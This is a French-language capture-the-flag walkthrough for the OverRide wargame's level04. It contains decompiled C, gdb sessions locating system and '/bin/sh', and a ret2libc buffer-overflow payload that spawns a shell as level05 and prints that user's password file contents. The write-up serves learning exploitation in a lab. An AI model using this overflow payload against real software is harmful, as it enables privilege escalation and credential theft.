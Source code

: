 # **Level 00**

Code decompiler,

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int stat_loc; // [esp+1Ch] [ebp-9Ch] BYREF
  char s[128]; // [esp+20h] [ebp-98h] BYREF
  int v6; // [esp+A0h] [ebp-18h]
  int v7; // [esp+A4h] [ebp-14h]
  int v8; // [esp+A8h] [ebp-10h]
  __pid_t v9; // [esp+ACh] [ebp-Ch]

  v9 = fork();
  memset(s, 0, sizeof(s));
  v8 = 0;
  stat_loc = 0;
  if ( v9 )
  {
    do
    {
      wait(&stat_loc);
      v6 = stat_loc;
      if ( (stat_loc & 0x7F) == 0 || (v7 = stat_loc, (char)((stat_loc & 0x7F) + 1) >> 1 > 0) )
      {
        puts("child is exiting...");
        return 0;
      }
      v8 = ptrace(PTRACE_PEEKUSER, v9, 44, 0);
    }
    while ( v8 != 11 );
    puts("no exec() for you");
    kill(v9, 9);
  }
  else
  {
    prctl(1, 1);
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(s);
  }
  return 0;
}
```
On remaque en testant le code qe si on rentre dans notre input un `buffer` de `156` characteres, le `child` ne se `quitte pas correctement`,
Essayons donc de faire de nouveau un `Ret2libc` mais depuis le `child`.
Pour executer correctement le child dans gdb et pouvoir recuperer les differentes adresses que l'ont a besoin pour l'exploit,
nous devons utiliser l'option de gdb, `set follow-fork-mode child`
Puis de nouveau on doit recuperer les adress de system et "/bin/sh",
```
level04@OverRide:~$ gdb ./level04 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) set follow-fork-mode child
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) run
Starting program: /home/users/level04/level04 

Breakpoint 1, 0x080486cd in main ()
(gdb) info func system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) find __libc_start_main, +999999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
Payload -> [156 char] [addr system] [4 char] [addr "/bin/sh"]
`python -c "print '\x90'*156 + '\xd0\xae\xe6\xf7' + '\xd0\xae\xe6\xf7' + '\xec\x97\xf8\xf7'" > /var/crash/file`
```
level04@OverRide:~$ python -c "print '\x90'*156 + '\xd0\xae\xe6\xf7' + 'AAAA' + '\xec\x97\xf8\xf7'" > /var/crash/file
level04@OverRide:~$ cat /var/crash/file - | ./level04 
Give me some shellcode, k
id
uid=1004(level04) gid=1004(level04) euid=1005(level05) egid=100(users) groups=1005(level05),100(users),1004(level04)
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
> ### NEXT : [Level 05](/level05/walkthrough.md)
